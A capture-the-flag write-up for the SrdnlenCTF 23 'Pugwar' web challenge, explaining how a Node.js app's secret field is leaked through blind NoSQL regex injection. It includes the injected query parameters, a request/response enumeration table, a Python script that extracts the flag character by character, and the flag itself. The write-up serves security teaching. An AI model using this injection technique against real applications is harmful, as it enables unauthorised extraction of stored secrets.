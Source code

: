 +++
author = "Ivan Valentini & Alessandro Mizzaro"
title = "[SrdnlenCTF 23] Pugwar"
date = "2023-10-30"
description = "Writeup for the Pugwar challenge of the srdnlenCTF 23"
tags = [
    "writeup",
    "ctf",
    "web"
]
+++

## Challenge description

What do you call a cold pug? A pugsicle!

Website: [http://pugwar.challs.srdnlen.it](http://pugwar.challs.srdnlen.it)

Author: [@Octaviusss](https://github.com/Octaviusss)

---

This time we don't have source code. The `X-Powered-By` header returned by the server is equal to `Express` so most likely we are attacking a Node.js application.

The application offers the following functionality:
- Registration/Login
- Creating a pug with a name, ability and secret associated with your user (`/choose-fighters`)
- Edit the ability of a pug that you created (`/fighter-customization`)

In the Hall Of Fame page we see a pug called Mario with its ability. Apparently he knows how to keep secrets. So our objective is to learn what type of secret is the pug Mario knows!

After having created an pug a big blue button shows up in the homepage that redirects to `/choose-fighters?pugName=A_Name_You_Chose`. A page that allows you to change the ability of the pug you have just created.

We can't edit the ability of the pug we have not created, so if we go to the page `/choose-fighters?pugName=Mario` we get back a message saying `You can't customize other players fighter!`. 

Let's say that you have created a pug like this:

| Property | Value| 
| - | -| 
| Name| Luigi|
| Ability| Do nothing| 
| Secret| Hello | 

If you were to go to the page `/choose-fighters?pugName=Luigi` you would be able to change Luigi's ability, but interestingly if you went to the page `/choose-fighters?pugName=Luigi&secret=Hello` you would be presented with the same page!

But if you went to the page `/choose-fighters?pugName=Luigi&secret=Hell` the website would answer `There are no fighters with that pugName!` so even though the `pugName` is correct, the server answers that it can't find a pug with that name, so the backed is checking every parameter we provide.

Many times Node.js application use NoSQL databases because they are very easy to set up and work with. But these type of databases suffer from the similar vulnerabilities as SQL databases.

These types of vulnerabilities are [well documented](https://book.hacktricks.xyz/pentesting-web/nosql-injection) online and to check if also the challenge server is vulnerable is as simple as going to `/choose-fighters?pugName=Luigi&secret[$regex]=^Hell`. This will make the server compare with a regex the `secret` value we provided and the one stored in the database. Because the regex we provided matches if the secret starts with `Hell` and the correct secret is `Hello` the server now no longer returns a message saying that `There are no fighters with that pugName!` but instead it will give us the ability to edit the pug ability!

Let's see how we can adapt this finding to get the flag. 
We know that if we try to change the ability of the Mario pug we will get a message saying `You can't customize other players fighter!`, but if we try to go to the page `/choose-fighters?pugName=Mario&secret=Anything` we will get a different error message saying `There are no fighters with that pugName!`.

This opens up the ability for us to differentiate between a correct `secret` and a bad `secret`. And because we can put a regex in the `secret` GET parameter we can enumerate character by character the content of the `secret` field like this:

| Request | Response |
| - | -| 
| /choose-fighters?pugName=Mario&secret[$regex]=^a| There are no fighters with that pugName! |
| /choose-fighters?pugName=Mario&secret[$regex]=^b| There are no fighters with that pugName! |
| ... | ... |
| /choose-fighters?pugName=Mario&secret[$regex]=^s| You can't customize other players fighter! |
| /choose-fighters?pugName=Mario&secret[$regex]=^sa| There are no fighters with that pugName! |
| ... | ... |
| /choose-fighters?pugName=Mario&secret[$regex]=^sr | You can't customize other players fighter! |


## Exploitation

We can automate this process with the following python script:
```python
import requests
import string
import random

URL = "http://pugwar.challs.srdnlen.it"

known = "srdnlen{"

# Register (to get a valid cookie)
s = requests.Session()
creds = ''.join([random.choice(string.ascii_letters) for _ in range(5)])
j = {"username": creds,"password":creds}
s.post(URL+"/register-user", json=j)

# Extract flag
while "}" not in known:    
    for c in "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_}":
        params = {
            "pugName":"Mario",
            "secret[$regex]": "^" + known + c
        }
        r = s.get(URL+"/fighter-customization", params=params)
        if "There are no fighters with that pugName!" not in r.text:
            known += c
            print(known)

print(known)
```

The flag is:
`srdnlen{pu6S_4nd_n0sql1_wh4t_3l2e}`